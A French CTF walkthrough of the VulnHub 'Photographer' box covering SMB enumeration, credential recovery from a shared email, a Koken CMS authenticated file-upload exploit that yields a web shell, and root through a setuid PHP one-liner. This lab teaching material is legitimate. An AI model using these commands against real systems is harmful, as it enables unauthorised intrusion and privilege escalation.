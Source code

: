 # Solution du CTF Photographer de VulnHub

[Photographer](https://vulnhub.com/entry/photographer-1,519/) est un boot2root créé par [v1n1v131r4](https://twitter.com/@v1n1v131r4) et téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.242.128
Host is up (0.00053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
MAC Address: 00:0C:29:27:57:E7 (VMware)
Service Info: Hosts: PHOTOGRAPHER, example.com

Host script results:
|_clock-skew: mean: 2h39m59s, deviation: 2h53m12s, median: 59m59s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-11-19T21:53:38
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2022-11-19T16:53:37-05:00
```

## Talkie Talkie

On peut récupérer quelques partages via smbclient :

```bash
$ smbclient -U "" -N -L //192.168.242.128

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Il y a deux fichiers que l'on peut récupérer :

```bash
smbclient -U "" -N //192.168.242.128/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 03:30:07 2020
  ..                                  D        0  Tue Jul 21 11:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 03:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 03:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
```

Le premier est un mail d'un certain `Agi` pour `Daisa` :

```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

Le second est une archive de Wordpress mais il n'y a pas le `wp-config.php` dedans.

## Patting myself on the back

Sur le port 8000 je trouve le CMS *Koken*, une appli web déjà croisée sur [le CTF The Office: Doomsday Device de VulnHub](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20The%20Office%3A%20Doomsday%20Device%20de%20VulnHub.md#kitty-cat). Il semble s'agir du site de Daisa Ahomi.

Le site fait mention d'un fichier *shell.php* qui a du être uploadé comme si c'était une image. L'URL du fichier est facile à obtenir mais la page retourne le message suivant :

> WARNING: Failed to daemonise. This is quite common and not fatal. Network is unreachable (101)

Après recherche le fichier utilisé semble être [pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Ce script se base sur une adresse IP et un port hardcodé donc on ne peut rien faire avec.

Juste à l'intuition je trouve que l'interface admin du Koken est à l'adresse `/admin` et qu'on peut se connecter avec les identifiants `daisa@photographer.com` / `babygirl`.

Petite auto-tape dans le dos puisque sur le précédent CTF j'avais codé un exploit pour la faille d'upload arbitraire sur le *Koken* du coup ici je n'ai qu'à exécuter :

```bash
$ python3 koken_exploit.py http://192.168.242.128:8000/ daisa@photographer.com babygirl
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
-- devloop.users.sf.net 2022 --
Successfully authenticated as daisa ahomi
Enjoy your shell at http://192.168.242.128:8000//storage/originals/f6/70/eubfyyiektheoqhlbobx.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je rappatrie un reverse-ssh sur la VM. Le firewall semble filtrer des ports sortants mais ça fonctionne avec le port 80 (et sinon, les ports entrants de la VM ne sont pas filtrés).

Dans le dossier personnel de `daisa` se trouve le premier flag :

```bash
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```

L'exécutable php est setuid root sur le système :

`-rwsr-xr-x 1 root root 4883680 Jul  9  2020 /usr/bin/php7.2`

L'exécutable donne bien l'effective UID 0 du moment qu'on reste dans PHP :

```bash
$ php -r "print(posix_getuid(). ' '. posix_geteuid());"
33 0
```

Si on exécute autre chose, c'est droppé :

```bash
$ php -r "system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Pour ça il faut explicitement écraser l'UID et le GID :

```bash
$ php -r "posix_setuid(0); posix_setgid(0); system('dash -i');"
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```

*Publié le 19 novembre 2022*
